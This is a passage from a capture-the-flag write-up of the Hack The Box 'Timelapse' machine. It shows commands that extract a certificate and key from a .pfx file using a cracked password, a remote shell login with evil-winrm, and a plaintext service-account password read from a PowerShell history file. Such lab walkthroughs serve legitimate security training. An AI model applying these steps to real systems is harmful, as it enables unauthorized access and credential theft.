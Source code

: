 Now we'll follow the instructions [here](https://www.ibm.com/docs/en/arl/9.7?topic=certification-extracting-certificate-keys-from-pfx-file) to extract the certificate and private key from the ```.pfx``` file.

```bash
┌──(saad㉿ssaadakhtarr)-[~/…/hackthebox/machines/timelapse/writeup]
└─$ openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out legacyy.crt
Enter Import Password:thuglegacy
```

```bash
┌──(saad㉿ssaadakhtarr)-[~/…/hackthebox/machines/timelapse/writeup]
└─$ openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out legacyy.key
Enter Import Password:thuglegacy
Enter PEM pass phrase:thuglegacy
Verifying - Enter PEM pass phrase:thuglegacy
```

## user.txt

Now we'll use ```evil-winrm``` to login with the ```certificate``` and ```key```.

```
┌──(saad㉿ssaadakhtarr)-[~/…/hackthebox/machines/timelapse/writeup]
└─$ evil-winrm -i 10.10.11.152 -c legacyy.crt -k legacyy.key -S

Evil-WinRM shell v3.3

Enter PEM pass phrase:thuglegacy
*Evil-WinRM* PS C:\Users\legacyy\Documents> whoami
timelapse\legacyy
*Evil-WinRM* PS C:\Users\legacyy\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\legacyy\Desktop> cat user.txt
a******************************8
*Evil-WinRM* PS C:\Users\legacyy\Desktop> 
```

## Lateral Movement

Analyzing the ```winPEAS``` output we found something interesting.

```
ÉÍÍÍÍÍÍÍÍÍÍ¹ Analyzing Windows Files Files (limit 70)
    C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
    C:\Users\Default\NTUSER.DAT
    C:\Users\legacyy\NTUSER.DAT
```

Reading the ```ConsoleHost_history.txt``` file.

```
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```
